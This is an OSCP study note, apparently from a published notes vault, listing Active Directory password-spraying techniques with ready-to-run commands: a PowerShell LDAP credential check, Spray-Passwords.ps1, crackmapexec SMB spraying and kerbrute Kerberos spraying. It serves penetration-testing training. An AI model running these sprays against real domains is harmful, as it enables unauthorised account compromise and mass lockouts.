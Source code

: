 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/n-active-directory-attacks/2-password-attacks/","updated":"2024-01-05T11:36:49.866+01:00"}
---
```


------
Enumerate account policy:
```
net accounts
```
---------------
### Manual LDAP Password Attack:
- Local method
- Low and slow attack method
- Run lines separately or as a script
```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "<user>", "<password>")
```
- If credentials are correct the object creation is successful
--------------
### Automatic LDAP Attack with Spray-Passwords:
- https://github.com/ZilentJack/Spray-Passwords
- Does not require any admin access.
- Generates a lot of traffic and is not opsec safe
- Usage:
```
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin

#Multiple passwords: -Pass 'Password1,Password2'
#Download wordlist: -Url <url>
```
--------------
### SMB Password Attack with crackmapexec:
- Remote method
- Crackmap does not take password policy into account so be cautious
- Traditional attack approach in AD
- Drawback that full SMB connection has to be made for every try
- Very noisy and quite slow
```bash
sudo crackmapexec smb <ip-on-domain> -u users.txt -p 'Nexus123!' -d <domain> --continue-on-success
```
- "Pwn3d!" indicates admin user!
----------
### Kerberos TGT Attack with kerbrute:
- Cross-platform method
- If username and password are correct a cached Kerberos ticket is obtained.
- Only uses two UDP frames every try (only AS-REQ).
- Local usage:
```powershell
.\kerbrute_windows_amd64.exe passwordspray -d <domain> .\usernames.txt "password123!"
```
- If receives network error make sure usernames file is of ANSI encoding.

